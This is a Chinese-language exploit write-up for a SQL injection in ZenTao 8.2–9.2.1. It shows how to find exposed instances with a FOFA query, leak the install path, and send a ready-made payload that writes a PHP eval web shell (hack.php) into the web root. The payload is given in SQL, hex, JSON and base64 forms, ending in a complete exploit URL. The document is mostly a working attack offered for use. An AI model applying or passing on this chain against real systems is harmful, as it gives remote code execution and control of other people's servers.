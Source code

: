 # 禅道8.2-9.2.1版本注入漏洞
## 资产搜索
fofa app="易软天创-禅道系统"
### 获取服务版本
`/zentao/index.php?mode=getconfig`  
!()[img/version.png]
### 获取绝对路径
url随便输入，根据报错查看路径：`/zentao/3424/`  
!()[img/path.png]
## POC
- sql注入语句：  
```sql
select '<?php @eval($_POST[x])?>' into outfile '/opt/zbox/app/zentao/www/hack.php'
```
- 进行HEX编码(注意加密解密都不带0x，但是EXP中需要加上）：  
```hex
73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C6520272F6F70742F7A626F782F6170702F7A656E74616F2F7777772F6861636B2E70687027
```
- HEX编码后前面加上0x进行拼接：
```json
{"orderBy":"order limit 1;SET @SQL=0x73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C6520272F6F70742F7A626F782F6170702F7A656E74616F2F7777772F6861636B2E70687027;PREPARE pord FROM @SQL;EXECUTE pord;-- -","num":"1,1","type":"openedbyme"}
```
- 整体base64编码：
```base64
eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2QzY1NjM3NDIwMjczQzNGNzA2ODcwMjA0MDY1NzY2MTZDMjgyNDVGNTA0RjUzNTQ1Qjc4NUQyOTNGM0UyNzIwNjk2RTc0NkYyMDZGNzU3NDY2Njk2QzY1MjAyNzJGNkY3MDc0MkY3QTYyNkY3ODJGNjE3MDcwMkY3QTY1NkU3NDYxNkYyRjc3Nzc3NzJGNjg2MTYzNkIyRTcwNjg3MDI3O1BSRVBBUkUgcG9yZCBGUk9NIEBTUUw7RVhFQ1VURSBwb3JkOy0tIC0iLCJudW0iOiIxLDEiLCJ0eXBlIjoib3BlbmVkYnltZSJ9
```
- 发送EXP：
```url
http://x.x.x.x/zentao/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2QzY1NjM3NDIwMjczQzNGNzA2ODcwMjA0MDY1NzY2MTZDMjgyNDVGNTA0RjUzNTQ1Qjc4NUQyOTNGM0UyNzIwNjk2RTc0NkYyMDZGNzU3NDY2Njk2QzY1MjAyNzJGNkY3MDc0MkY3QTYyNkY3ODJGNjE3MDcwMkY3QTY1NkU3NDYxNkYyRjc3Nzc3NzJGNjg2MTYzNkIyRTcwNjg3MDI3O1BSRVBBUkUgcG9yZCBGUk9NIEBTUUw7RVhFQ1VURSBwb3JkOy0tIC0iLCJudW0iOiIxLDEiLCJ0eXBlIjoib3BlbmVkYnltZSJ9
```  
!()[img/exp.png]
参考：https://www.hacking8.com/bug-web/禅道/禅道8.2-9.2.1-注入GetShell.html


